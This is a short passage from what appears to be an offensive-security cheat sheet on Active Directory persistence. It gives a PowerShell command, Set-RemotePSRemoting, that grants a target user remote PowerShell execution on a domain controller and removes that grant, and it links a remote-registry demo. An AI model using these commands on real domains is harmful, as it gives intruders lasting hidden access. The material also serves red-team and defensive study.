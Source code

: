 ```powershell
# set-RemoteDCOM
```

### <a name='Powershell'></a>Powershell

<img src="https://github.com/jomivz/jomivz.github.io/blob/master/assets/images/ad-persist-sd-PS-set-remotePSRemoting.png" width="500">

```powershell
# grant PS remote execution to a user
Set-RemotePSRemoting -UserName $ztarg_user_name -ComputerName $zdom_dc_name -Verbose

# remove the grant of PS remote execution
Set-RemotePSRemoting -UserName $ztarg_user_name -ComputerName $zdom_dc_name -Verbose -Remove
```

### <a name='Registry'></a>Registry

- [DEMO remote registry](https://www.youtube.com/watch?v=pOHO3hdTKyw)
